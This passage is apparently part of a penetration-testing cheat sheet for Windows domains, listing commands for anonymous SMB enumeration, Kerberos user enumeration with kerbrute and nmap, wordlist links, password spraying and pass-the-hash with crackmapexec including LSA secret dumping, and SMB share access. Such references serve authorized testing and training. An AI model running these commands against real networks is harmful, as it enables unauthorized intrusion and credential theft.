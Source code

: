 * enum4linux  
```
enum4linux <ip>
```
```
enum4linux -a -u "" -p "" <ip> && enum4linux -a -u "guest" -p "" <ip>
```

### Enumerating Users via Kerberos
* kerbrute  
```
kerbrute userenum -d <domain> --dc <ip> userlist.txt
```
* nmap  
```
sudo nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm=test.local,userlist.txt <ip>
```
* Wordlists  
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt  
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt  

* lookupsid.py via RPC  
```
impacket-lookupsid anonymous@<ip>
```  
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/lookupsid.py  

### Changing expired password via smbpasswd
* Identify  
```
crackmapexec smb $IP -u users.txt -p pass.txt  
\\ STATUS_PASSWORD_MUST_CHANGE
```
* Changing expired password
```
smbpasswd -r <ip> -U <user>
```

### Validate Credentials/Permissions
* Validation of network user credentials via smb using crackmmapexec  
```
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> -d <domain> --continue-on-success
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> -d <domain> 
crackmapexec smb 192.168.0.10-20 -u administrator -H <hash> --local-auth --lsa  
crackmapexec smb 192.168.0.10-20 -u administrator -p <password>
```

* List SMB shared folders authentically
```
smbclient -L //<domain> -I <IP> -U <user>
```

* Access a shared folder via SMB
```
smbclient //<domain>/folder -I <IP> -U <user>
```
